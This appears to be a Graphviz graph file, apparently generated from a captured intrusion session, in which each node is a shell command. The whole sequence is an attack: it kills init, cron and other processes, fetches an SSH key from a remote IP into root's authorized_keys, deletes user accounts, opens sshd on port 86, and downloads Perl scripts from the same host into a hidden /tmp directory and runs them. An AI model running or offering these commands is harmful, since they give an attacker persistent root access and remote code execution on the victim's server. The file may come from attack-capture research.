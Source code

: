 digraph {
0 [label="killall -9 init "];
0 -> 0
2 [label="killall -9 crond "];
2 -> 2
4 [label="killall -9 python std idiot* "];
4 -> 4
6 [label="mkdir /root/.ssh "];
6 -> 6
8 [label="killall -9 python "];
8 -> 8
10 [label="killall -9 screen "];
10 -> 10
12 [label="cd /root/.ssh "];
12 -> 12
14 [label="wget http://178.18.24.165/ssh/kid "];
14 -> 16 [label=";,"];
16 [label="cat kid authorized_keys "];
16 -> 18 [label=";,"];
18 [label="authorized_keys "];
18 -> 18
20 [label="cat kid authorized_keys2 "];
20 -> 22 [label=";,"];
22 [label="authorized_keys2 "];
22 -> 22
24 [label="rm -rf kid "];
24 -> 26 [label=";,"];
26 [label="/usr/sbin/userdel ucpss "];
26 -> 26
28 [label="/usr/sbin/userdel upx "];
28 -> 28
30 [label="/usr/sbin/sshd -p 86 "];
30 -> 30
32 [label="mkdir /tmp/.dq "];
32 -> 32
34 [label="curl -O /tmp/.dq/s http://178.18.24.165/s "];
34 -> 34
36 [label="wget -O /tmp/.dq/s http://178.18.24.165/s "];
36 -> 36
38 [label="curl -O /tmp/.dq/e http://178.18.24.165/e "];
38 -> 38
40 [label="wget -O /tmp/.dq/e http://178.18.24.165/e "];
40 -> 40
42 [label="chmod 755 /tmp/.dq/s "];
42 -> 42
44 [label="chmod 755 /tmp/.dq/e "];
44 -> 44
46 [label="perl /tmp/.dq/s "];
46 -> 46
48 [label="perl /tmp/.dq/e "];
48 -> 48
}
